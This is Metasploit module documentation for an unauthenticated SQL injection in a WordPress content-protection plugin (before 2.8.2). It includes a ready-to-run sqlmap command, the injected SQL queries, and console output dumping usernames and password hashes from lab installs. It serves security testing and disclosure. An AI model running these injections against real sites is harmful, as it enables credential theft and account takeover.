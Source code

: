 ## Vulnerable Application

Secure Copy Content Protection and Content Locking, a WordPress plugin,
prior to 2.8.2 is affected by an unauthenticated SQL injection via the
`sccp_id[]` parameter.

Remote attackers can exploit this vulnerability to dump usernames and password hashes
from the`wp_users` table of the affected WordPress installation. These password hashes
can then be cracked offline using tools such as Hashcat to obtain valid login
credentials for the affected WordPress installation.

A vulnerable version (2.8.1) of the plugin can be downloaded
[here](https://downloads.wordpress.org/plugin/secure-copy-content-protection.2.8.1.zip)

The output from running this module will be somewhat similar to the following `sqlmap` command:

```
sqlmap --dbms=mysql -u "http://1.1.1.1/wp-admin/admin-ajax.php?action=ays_sccp_results_export_file&sccp_id[]=3)*&type=json" --technique T -T wp_users -C user_login,user_pass --dump
```

## Verification Steps

1. Install the plugin, use defaults
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/wp_secure_copy_content_protection_sqli`
4. Do: `set rhosts [ip]`
5. Optionally set `USER_COUNT` to the number of users you want to dump the credentials of.
5. Do: `run`
6. *Verify* that `USER_COUNT` number of users's usernames and password hashes are gathered from the `wp_users` table of the target WordPress installation.
## Options

### ACTION: List Users

This action exploits the unauthenticated SQL injection and lists `USER_COUNT`
users and password hashes from the `wp_users` table of the affected WordPress installation.

### USER_COUNT

If action `List Users` is selected (default), this is the number of users to enumerate the credentials of.
The larger this number, the more time it will take for the module to run.  Defaults to `3`.

## Scenarios

### Secure Copy Content Protection and Content Locking 2.8.1 on Wordpress 5.7.5 on Ubuntu 20.04

```
resource (secure_copy.rb)> use auxiliary/scanner/http/wp_secure_copy_content_protection_sqli
resource (secure_copy.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (secure_copy.rb)> set verbose true
verbose => true
resource (secure_copy.rb)> set limit 1
limit => 1
resource (secure_copy.rb)> run
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/secure-copy-content-protection/readme.txt
[*] Checking /wp-content/plugins/secure-copy-content-protection/Readme.txt
[*] Checking /wp-content/plugins/secure-copy-content-protection/README.txt
[*] Found version 2.8.1 in the plugin
[+] The target appears to be vulnerable.
[*] Enumerating Usernames and Password Hashes
[*] {SQLi} Executing (select group_concat(dwOr) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) dwOr from wp_users limit 3) fOXVNQ)
[*] {SQLi} Encoded to (select group_concat(dwOr) from (select cast(concat_ws(0x3b,ifnull(user_login,repeat(0x16,0)),ifnull(user_pass,repeat(0xa1,0))) as binary) dwOr from wp_users limit 3) fOXVNQ)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] Dumped table contents:
wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Secure Copy Content Protection and Content Locking 2.8.1 on WordPress 5.9.1 on Docker
```
msf payload(windows/x64/meterpreter/reverse_tcp) > use auxiliary/scanner/http/wp_secure_copy_content_protection_sqli
msf auxiliary(scanner/http/wp_secure_copy_content_protection_sqli) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf auxiliary(scanner/http/wp_secure_copy_content_protection_sqli) > set RPORT 8000
RPORT => 8000
msf auxiliary(scanner/http/wp_secure_copy_content_protection_sqli) > show options

Module options (auxiliary/scanner/http/wp_secure_copy_content_protection_sqli):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      127.0.0.1        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metas
                                          ploit
   RPORT       8000             yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path to the wordpress application
   THREADS     1                yes       The number of concurrent threads (max one per host)
   USER_COUNT  3                yes       Number of user credentials to enumerate
   VHOST                        no        HTTP server virtual host


Auxiliary action:

   Name        Description
   ----        -----------
   List Users  Queries username, password hash for USER_COUNT users


msf auxiliary(scanner/http/wp_secure_copy_content_protection_sqli) > run

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Enumerating Usernames and Password Hashes
[!] Each user will take about 5-10 minutes to enumerate. Be patient.
[+] Dumped table contents:
wp_users
========

 user_login  user_pass
 ----------  ---------
 normal      $P$Bu9/XNK93oyUTKO.zJ9yGZfYAcbZg9.
 testAdmin   $P$BYWtZOfh8yqLCKA877hwBysqGdRtk/.

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/wp_secure_copy_content_protection_sqli) >
```
